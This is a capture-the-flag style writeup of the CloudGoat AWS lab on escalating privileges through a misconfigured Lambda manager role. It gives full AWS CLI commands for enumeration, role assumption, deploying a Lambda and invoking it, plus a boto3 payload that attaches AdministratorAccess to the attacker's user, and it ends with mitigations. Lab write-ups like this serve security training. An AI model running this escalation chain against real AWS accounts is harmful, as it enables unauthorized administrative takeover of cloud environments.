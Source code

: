 # 🛡️ CloudGoat Lambda Privilege Escalation Writeup

This writeup details a privilege escalation scenario in an AWS environment simulated using [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat). The scenario involves escalating IAM permissions via a misconfigured Lambda management role.

---

## 🔐 Initial Access

Using the credentials provided from CloudGoat:


AWS Access Key ID:     AKIA****************  
AWS Secret Access Key: ***************************************


---

## 🔍 IAM Enumeration (PACU)

Using [Pacu](https://github.com/RhinoSecurityLabs/pacu), we first enumerate the account permissions:

bash
run iam__enum_permissions


Key findings:
- **User:** chris-cgid61ul1qxgdg
- **Account:** 727671863602
- **ARN:** arn:aws:iam::727671863602:user/chris-cgid61ul1qxgdg

### Policies and Roles Discovered:

- **Roles:**
  - cg-debug-role-cgid61ul1qxgdg
  - cg-lambdaManager-role-cgid61ul1qxgdg
- **Policies:**
  - cg-chris-policy-cgid61ul1qxgdg (attached to chris)
  - cg-lambdaManager-policy-cgid61ul1qxgdg

These policies include permissions such as:

json
{
  "Action": [
    "sts:AssumeRole",
    "iam:List*",
    "iam:Get*"
  ],
  "Effect": "Allow",
  "Resource": "*"
}


---

## 🧑‍💻 CLI Enumeration Steps

bash
aws sts get-caller-identity --profile lambda_priv
aws iam list-user-policies --user-name chris-cgid61ul1qxgdg --profile lambda_priv
aws iam list-attached-user-policies --user-name chris-cgid61ul1qxgdg --profile lambda_priv
aws iam get-policy-version --policy-arn arn:aws:iam::727671863602:policy/cg-chris-policy-cgid61ul1qxgdg --version-id v1 --profile lambda_priv


Permissions granted allow:
- Role assumption
- Listing and reading IAM roles/policies

### Role Permissions Breakdown

**cg-lambdaManager-policy-cgid61ul1qxgdg**:
json
{
  "Action": [
    "lambda:*",
    "iam:PassRole"
  ],
  "Effect": "Allow",
  "Resource": "*"
}


**cg-debug-role-cgid61ul1qxgdg**:
- Attached policy: AdministratorAccess 👑

---

## ⚔️ Attack Plan

1. **Assume** the cg-lambdaManager-role-cgid61ul1qxgdg
2. **Create** a Lambda function using cg-debug-role-cgid61ul1qxgdg (which has admin rights)
3. **Invoke** the Lambda to attach the AdministratorAccess policy to the chris user

---

## 📦 Privilege Escalation Execution

### Step 1: Assume Lambda Manager Role

bash
aws sts assume-role \
  --role-arn arn:aws:iam::727671863602:role/cg-lambdaManager-role-cgid61ul1qxgdg \
  --role-session-name lambdamanager \
  --profile lambda_priv


Configure a new AWS CLI profile with these temporary credentials.

---

### Step 2: Write the Lambda Payload

**lambda_function.py**:
python
import boto3

def lambda_handler(event, context):
    iam = boto3.client('iam')
    target_user = 'chris-cgid61ul1qxgdg'
    policy_arn = 'arn:aws:iam::aws:policy/AdministratorAccess'

    response = iam.attach_user_policy(
        UserName=target_user,
        PolicyArn=policy_arn
    )

    return {
        'statusCode': 200,
        'body': f'Policy attached to {target_user}'
    }


bash
zip lambda_function.py.zip lambda_function.py


---

### Step 3: Deploy the Lambda

bash
aws lambda create-function \
  --function-name admin_function \
  --runtime python3.9 \
  --role arn:aws:iam::727671863602:role/cg-debug-role-cgid61ul1qxgdg \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://lambda_function.py.zip \
  --profile lambdamanager \
  --region us-east-1


---

### Step 4: Invoke the Function

bash
aws lambda invoke \
  --function-name admin_function \
  --profile lambdamanager \
  --region us-east-1 \
  output.json


---

## ✅ Results

AdministratorAccess was successfully attached to the chris user. We now have full administrative privileges.

---

## 🔚 Summary

| Step | Description |
|------|-------------|
| 🧑 Access | Credentials obtained via CloudGoat |
| 🧭 Enumeration | IAM roles, users, and policies explored using Pacu and AWS CLI |
| 🪜 Escalation | Role assumed → Lambda created → Privileged function executed |
| 🛡️ Outcome | Full admin access via policy attachment |

---

## 📝 Mitigations

- Avoid attaching overly permissive policies like iam:PassRole to roles accessible by non-admin users.
- Audit role trust relationships regularly.
- Implement least privilege principles.
